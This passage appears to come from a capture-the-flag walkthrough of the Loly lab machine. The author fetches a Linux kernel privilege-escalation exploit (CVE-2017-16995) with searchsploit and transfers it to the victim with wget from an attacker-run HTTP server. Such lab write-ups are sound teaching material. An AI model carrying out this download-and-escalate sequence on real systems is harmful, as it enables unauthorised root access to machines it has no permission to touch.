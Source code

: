 ![Untitled](/Vulnhub-Files/img/Loly/Untitled%208.png)

Lets try it out now →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Loly]
└─$ searchsploit -m linux/local/45010.c         
  Exploit: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/45010
     Path: /usr/share/exploitdb/exploits/linux/local/45010.c
    Codes: CVE-2017-16995
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/Downloads/Proving_Ground//Vulnhub-Files/img/Loly/45010.c
```
{: .nolineno}
{: .nolineno}

Lets transfer it to victim machine through python3 http server and recive it with wget →

```bash
loly@ubuntu:/tmp$ wget http://192.168.45.200:8888/45010.c
--2023-06-22 03:51:55--  http://192.168.45.200:8888/45010.c
Connecting to 192.168.45.200:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13176 (13K) [text/x-csrc]
Saving to: ‘45010.c’

45010.c             100%[===================>]  12.87K  --.-KB/s    in 0.002s  

2023-06-22 03:51:56 (5.51 MB/s) - ‘45010.c’ saved [13176/13176]

loly@ubuntu:/tmp$ chmod +x 45010.c
```
{: .nolineno}
{: .nolineno}
